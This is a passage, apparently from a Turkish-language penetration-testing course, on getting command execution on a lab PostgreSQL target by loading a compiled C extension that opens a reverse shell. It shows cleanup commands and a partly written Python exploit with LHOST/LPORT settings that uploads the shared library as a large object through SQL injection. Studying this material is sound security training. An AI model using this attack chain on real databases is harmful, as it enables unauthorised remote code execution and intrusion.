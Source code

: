Komutları çalıştırmayı bitirdikten sonra, fonksiyonu ve oluşturmuş olabileceğiniz large object'leri (kütüphaneyi nasıl yüklediğinize bağlı olarak) veritabanından bırakarak arkanızı temizlediğinizden emin olun:

```shell-session
bluebird=# DROP FUNCTION rev_shell;
DROP FUNCTION
bluebird=# SELECT lo_unlink(58017);
 lo_unlink 
-----------
         1
(1 row)
```

Not: Tercih ederseniz, derleme için `gcc` ve `postgresql-server-dev-13`'ün zaten kurulu olduğu `test virtual makinesini` kullanabilirsiniz.

#### Permissions

PostgreSQL'de her kullanıcı fonksiyon oluşturamaz. Bunu yapmak için, bir kullanıcının ya `superuser` olması ya da genel schema üzerinde `CREATE` ayrıcalığına sahip olması gerekir. Ek olarak, `C` tüm ( super olmayan) kullanıcılar için varsayılan olarak güvenilmeyen bir dil olduğundan, `güvenilen` bir dil olarak eklenmiş olmalıdır.

Referans için [PSQL Belgelerine](https://www.postgresql.org/docs/current/sql-grant.html) ve [StackOverflow](https://stackoverflow.com/questions/7014437/error-permission-denied-for-language-c)'daki bu cevaba göz atın.

#### Automation / Writing an Exploit

Bazı durumlarda, adımları sizin için `otomatikleştirecek` bir exploit script yazmak mantıklı olabilir. Paylaşılan bir kütüphaneyi large objects aracılığıyla yüklemek ve ardından bir fonksiyon çağrısı yapmak birçok request gerektirebilir ve bunların hepsini manuel olarak göndermek oldukça sıkıcı olabilir, bu nedenle bu işi sizin yerinize yapacak bir script yazmak için iyi bir senaryodur.

İşte BlueBird'e karşı (kimliği doğrulanmamış) komut yürütmeyi otomatikleştiren neredeyse bitmiş bir script.

```python
#!/usr/bin/python3

import requests
import random
import string
from urllib.parse import quote_plus
import math

# Parameters for call to rev_shell
LHOST = "192.168.0.122"
LPORT = 443

# Generate a random string
def randomString(N):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=N))

# Inject a query
def sqli(q):
    # TODO: Use an SQL injection to run the query `q`

# Read the compiled extension
with open("pg_rev_shell.so","rb") as f:
    raw = f.read()

# Create a large object
loid = random.randint(50000,60000)
sqli(f"SELECT lo_create({loid});")
print(f"[*] Created large object with ID: {loid}")
```